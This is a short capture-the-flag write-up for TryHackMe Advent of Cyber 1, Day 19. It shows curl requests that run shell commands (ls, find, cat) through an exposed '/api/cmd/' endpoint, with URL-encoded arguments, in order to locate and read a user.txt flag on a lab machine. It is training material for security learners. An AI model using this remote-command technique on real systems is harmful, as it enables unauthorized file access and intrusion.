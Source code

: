 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 19
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## What are the contents of the `user.txt` file?
1. Given the `/api/cmd/ls` endpoint, we get a JSON response which details typical `/`-level Linux directories:
```bash
$ curl http://<MACHINE_IP>:3000/api/cmd/ls
{"stdout":"bin\nboot\ndata\ndev\netc\nhome\nlib\nlib64\nlocal\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n","stderr":""}
```
2. A `find` command can be issued with space being encoded to `%20` and a `/` being  encoded to `%2f` in order to find the path of `user.txt`:
```bash
$ curl http://<MACHINE_IP>:3000/api/cmd/find%20%2f%20-name%20"user.txt"
{"stdout":"/home/bestadmin/user.txt\n","stderr":""}
```
3. A `cat` command can be issued with space being encoded to `%20` and a `/` being  encoded to `%2f` in order to print the content of `user.txt`:
```
$ curl http://<MACHINE_IP>:3000/api/cmd/cat%20home%2fbestadmin%2fuser.txt
{"stdout":"5W7WkjxBWwhe3RNsWJ3Q\n","stderr":""}
```

**Answer**: `5W7WkjxBWwhe3RNsWJ3Q`